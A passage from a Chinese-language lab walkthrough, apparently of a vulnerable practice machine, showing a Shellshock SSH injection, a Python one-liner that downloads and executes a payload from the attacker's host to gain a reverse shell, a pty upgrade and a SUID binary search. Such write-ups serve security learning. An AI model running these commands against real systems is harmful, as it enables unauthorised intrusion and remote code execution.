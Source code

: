 命令：

```
ssh noob@192.168.182.153 -i noob -t "() { :; }; /bin/bash"
```

学艺不精这里，脑补中... 终于成功进入

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjriaadHDPTHJOaAj9DI3tr4dN12ngsMZTfks1bLGVAJicicybnNzwEfpqw/640?wx_fmt=png)

这边看了目录，可能不够细心还是没信息，经验告诉我，这里要使用二进制、缓冲区溢出渗透了

这边我们使用 exploit 进行命令注入攻击拿到反弹 shell 在本地上

学习链接：https://www.hackingarticles.in/command-injection-exploitation-using-web-delivery-linux-windows/

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttj4MUFCQz4QZCkqbBzkchyk5McHtRic4bXQHxNPp6OibUReyHjKPCQ89ww/640?wx_fmt=png)

run 跑起来

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjRuta5PICW1dstS0XVjtwtsVG9brCibFpDFnEyRwByOHlYTLGTF56S0Q/640?wx_fmt=png)

```
python -c "import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.182.149:8080/AYTur8RzbbdxJ');exec(r.read());"
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjBImJQ87cITEXHtBzHibHiaaEP8bns6iaLjwhq3qLa8tbB8HQrnu2C4KIg/640?wx_fmt=png)

这边进行跑 shell

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjrv3N0u2ELdMyiaiaoz3QT38ZLmqmosBwluBZwziaYozPibWYevCia3maH9g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjrzHW84OasvuN8VLHsoUfqoJFtshmcxwNAo8uhE1SN3iczW1kQJVb23g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjS1vRCQrC42cReUQ9hbt2Sab8ZsrtgrVz6Y8xS7m1YfIJ6N6dYiaqdHw/640?wx_fmt=png)

开始是不成功的，后面在慢慢跑动后，使用 session 2 就进入了...

使用 python -c 'import pty; pty.spawn("/bin/bash")'进入 noob 用户

这边开始进一步查看

命令：

```
find / -perm -4000 2>/dev/null
```

使用 find 查看底层目录

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttjHQSxZibnIgxMs0c9nY02MlpkcIFVLrEoM2Yf5ZZlncECUassh7KNFYg/640?wx_fmt=png)

果然是缓冲区溢出的题... 我的弱项，好吧继续冲

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOOwmngwicsvusrFVnmwFttj1oRzCKbuhpvyReYmdnFOg4fm2ibQLiaiaOtLPWVzO12IHEYHxCta99yZQ/640?wx_fmt=png)
